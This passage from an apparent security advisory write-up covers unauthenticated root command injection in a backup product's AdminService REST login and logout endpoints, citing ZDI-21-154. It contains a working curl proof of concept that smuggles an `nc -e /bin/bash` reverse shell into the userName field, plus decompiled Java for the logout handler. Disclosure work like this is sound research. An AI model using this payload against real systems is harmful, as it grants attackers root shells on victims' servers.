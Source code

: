 A proof of concept that spawns a reverse shell is trivial, we can even user *curl* command:

```
curl -i -s -k -X $'POST' \
    -H $'Host: mfobr.nat:21412' -H $'Content-Type: application/json' -H $'Content-Length: 76' \
    --data-binary $'{\"userName\":\"owned `nc -e /bin/bash 10.10.10.1 4444`\",\"credential\":\"whatever\"}' \
    $'https://10.10.10.123:21412/AdminService/urest/v1/LogonResource'
```

This will spawn a reverse shell running as root that will connect to 10.10.10.1:4444. 
You can view the attack in full glory in this asciinema cast:
[![asciicast](https://asciinema.org/a/395851.svg)](https://asciinema.org/a/395851)

#### 1.2: Command Injection on *logout*
* [ZDI-21-154](https://www.zerodayinitiative.com/advisories/ZDI-21-154/)

Not only we have an unauthenticated command injection as root when logging in, but we have another one on logout! 

When a user wants to logout, they send an HTTP DELETE request to */AdminService/urest/v1/LogonResource*:

```
DELETE /AdminService/urest/v1/LogonResource HTTP/1.1
Host: mfobr.nat:21412
Token: dGhpc2lzYWZha2V0b2tlbiAg
```

To understand how it is processed, we have to look again at *AuthenticationController*, but this time at the *logout()* method:

```java
@Path(value="/urest/v1/LogonResource")
public class AuthenticationController
extends BaseController {
	private AuthenticationManager logon = AuthenticationManager.getInstance();

	@DELETE
	@Produces(value={"application/json"})
	public Response logout(@Context UriInfo info, @ValidVarChar @HeaderParam(value="Token") String token) {
		try {
			return AuthenticationController.getResponse(MediaType.APPLICATION_JSON_TYPE, HttpStatus.OK, (Object)this.logon.releaseToken(token));
		}
		catch (Throwable e) {
			if (e instanceof AuthenticationException) {
				if (((AuthenticationException)e).getAppCode() == null) {
					throw new AuthenticationException(e.getMessage(), "AUTHENTICATION_FAILED");
				}
				throw new AuthenticationException(e.getMessage(), ((AuthenticationException)e).getAppCode());
			}
			throw new AdminRestException(e.getMessage(), "AUTHENTICATION_FAILED");
		}
	}
}
```
